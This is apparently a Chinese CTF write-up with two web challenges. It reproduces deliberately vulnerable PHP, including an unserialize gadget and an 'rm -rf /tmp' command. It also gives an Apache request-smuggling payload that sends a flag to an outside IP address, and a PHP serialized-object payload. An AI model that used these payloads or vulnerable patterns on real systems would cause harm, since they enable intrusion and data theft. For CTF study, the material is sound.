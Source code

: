 # web
### ezcheck1n
```php
<?php

$FLAG = "flag{fake_flag}";
@file_get_contents("http://".$_GET['url'].$FLAG); //不出网
# but it's not the real flag
# beacuse someone say this year is not 2023 !!! like the post?
show_source('./2023.php');
$a = file_get_contents('./post.jpeg');
echo '<img src="data:image/jpeg;base64,' . base64_encode($a) . '">';
# notice -> time
# How should you get to where the flag is, the middleware will not forward requests that are not 2023
?>

```

---
#apache
服务器是`apache 2.4.55`存在[请求走私漏洞](https://xz.aliyun.com/t/12345),,, 
根据各种提示,我们应该是要访问2022.php来获取flag


![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230620211938.png)


*payload*
```
http://115.239.215.75:8082/2023/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/2022.php%3furl%3d13.213.5.185:80/?flag=
```

### fumo_backdoor
```php
<?php
error_reporting(0);
ini_set('open_basedir', __DIR__.":/tmp");
define("FUNC_LIST", get_defined_functions());

class fumo_backdoor {
    public $path = null;
    public $argv = null;
    public $func = null;
    public $class = null;
    //序列化时执行__sleep,文件包含
    public function __sleep() {
        if (
            file_exists($this->path) && 
            preg_match_all('/[flag]/m', $this->path) === 0
        ) {
            readfile($this->path);
        }
    }

    public function __wakeup() {
        $func = $this->func;
        if (
            is_string($func) && 
            in_array($func, FUNC_LIST["internal"])
        ) {
            call_user_func($func); //执行任意无参函数
        } else {
            $argv = $this->argv;
            $class = $this->class;
            
            new $class($argv);
        }
    }
}

$cmd = $_REQUEST['cmd'];
$data = $_REQUEST['data'];

switch ($cmd) {
    case 'unserialze':
        unserialize($data);
        break;
    
    case 'rm':
        system("rm -rf /tmp 2>/dev/null");
        break;
    
    default:
        highlight_file(__FILE__);
        break;
}
```

```php
O:13:"fumo_backdoor":4:{s:4:"path";N;s:4:"argv";N;s:4:"func";s:7:"phpinfo";s:5:"class";N;}
```
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230620220913.png)
发现存在这个扩展


# reverse

# pwn

# crypto

# Misc


---
## *相关wp*

https://mp.weixin.qq.com/s/DYYv8AG3I6pCQqSYa0wfsQ

啥也不会🥰
2023-06-17   13:33